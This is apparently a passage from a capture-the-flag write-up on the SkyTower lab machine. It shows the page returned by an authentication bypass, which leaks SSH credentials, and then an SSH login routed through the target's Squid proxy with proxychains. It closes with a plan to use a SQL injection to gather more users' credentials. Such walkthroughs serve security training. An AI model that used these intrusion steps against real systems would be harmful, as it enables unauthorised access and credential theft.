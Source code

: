 ```html SkyTower Auth Bypass
                  border-width: 5px;
                  border-style: solid;
                  width: 400px;
                  height:430px;
                  position:absolute;
                  top:50%;
                  left:50%;
                  margin-top:-215px; /* this is half the height of your div*/
                  margin-left:-200px;
                                ">
   <br><strong><font size=4>Welcome john@skytech.com</font><br /> </br></strong>As you may know, SkyTech has ceased all international operations.<br><br> To all our long term employees, we wish to convey our thanks for your dedication and hard work.<br><br><strong>Unfortunately, all international contracts, including yours have been terminated.</strong><br><br> The remainder of your contract and retirement fund, <strong>$2</strong> ,has been payed out in full to a secure account.  For security reasons, you must login to the SkyTech server via SSH to access the account details.<br><br><strong>Username: john</strong><br><strong>Password: hereisjohn</strong> <br><br> We wish you the best of luck in your future endeavors. <br> </div> </div></HTML>%
```

And success. We have made some progress :D Little did I know that I don't actually completely understand the progress made yet, but just keep this in mind :)

## climbing the tower and faling hard
From the auth bypass results, we can see specific mention for users to SSH into the server. This particular user has a username `john` and a password `hereisjohn`. So lets try this.
I setup my `proxychains` install to use the http proxy available on the server (`http 192.168.137.242 3128`) and opened a SSH session through it:

```bash SSH via Squid Proxy
$ proxychains4 ssh john@127.0.0.1
[snip]
[proxychains] Strict chain  ...  192.168.137.242:3128  ...  127.0.0.1:22  ...  OK
john@127.0.0.1's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 17 12:54:32 2014 from localhost

Funds have been withdrawn
Connection to 127.0.0.1 closed.
$
```

... ok. So we get a session, and are told _Funds have been withdrawn_, and get the connection closed. Not exactly what I hoped for. Thinking what could cause this behavior, my mind went on to things like a custom shell, `.bashrc` files (assuming the user has bash a a shell) etc. So, I figured there may be more users on the system and I should try get those credentials too. After all, we have a working SQL injection point.
